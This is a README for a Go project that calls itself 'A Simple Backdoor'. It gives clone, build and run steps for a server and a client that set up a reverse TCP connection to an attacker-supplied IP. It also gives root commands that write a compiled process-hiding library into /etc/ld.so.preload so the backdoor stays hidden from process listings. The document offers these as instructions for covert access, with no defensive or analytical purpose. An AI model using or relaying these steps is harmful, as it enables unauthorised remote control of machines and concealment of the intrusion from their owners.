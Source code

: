 <p align="center">
  <img src="https://vsoch.github.io/assets/images/posts/learning-go/gophercises_jumping.gif" width="420" height="440">
</p>

       	                           A Simple Backdoor Written in Go

---

<p align="center">
	How to Install?
</p>

```bash
git clone https://github.com/T0k1To/IaidoProject
```
---

<p align="center">
	Server Usage:
</p>

```bash
cd IaidoProject
```
```bash
go run IaidoSV.go
```
---

<p align="center">
	Client Usage:
</p>

```bash
cd IaidoProject
```
```bash
cd bin
```
```bash
./Iaido
```
- Wait to load and insert your ip to receive the reverse tcp connection and enjoy =]
---

<p align="center">
	What is processhider.c?
</p>

```This is a simple C code to hide a process in Linux using ld preloader by Gianluca Borello!```

<p align="center">
	processhider.c Usage:
</p>

`With root proceed:`

```bash
cd IaidoProject
```
```bash
make
```
```bash
sudo mv libprocesshider.so /usr/local/lib/
```
```bash
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

- References and Credits:
  - https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/

  - https://github.com/gianlucaborello/libprocesshider

---
